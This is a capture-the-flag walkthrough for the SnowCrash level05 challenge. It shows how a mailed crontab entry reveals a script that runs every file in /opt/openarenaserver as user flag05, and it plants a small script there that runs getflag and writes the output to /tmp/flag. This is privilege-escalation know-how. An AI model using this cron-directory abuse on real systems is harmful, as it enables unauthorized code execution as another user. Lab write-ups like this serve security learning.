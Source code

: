# Walkthrough

When I accessed the level05 host, I noticed a message saying "You have new mail." I searched for the mail and found it contained the command
` "*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05"`, which appeared to be a crontab command. This command used the "su" command to run a shell script located at `/usr/sbin/openarenaserver` as the user "flag05".
```
level05@SnowCrash:/usr/sbin$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:/usr/sbin$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

```
This script above would run every two minutes and executed all files in the /opt/openarenaserver directory with a CPU time limit of 5 seconds and with debugging information printed to the console, before removing each file.

Based on this information, I decided to create a script in the /opt/openarenaserver directory that would execute the "getflag" command and redirect its output to a file. This would allow me to potentially capture the flag and access the next level.
```
#!/bin/bash

getflag > /tmp/flag
```
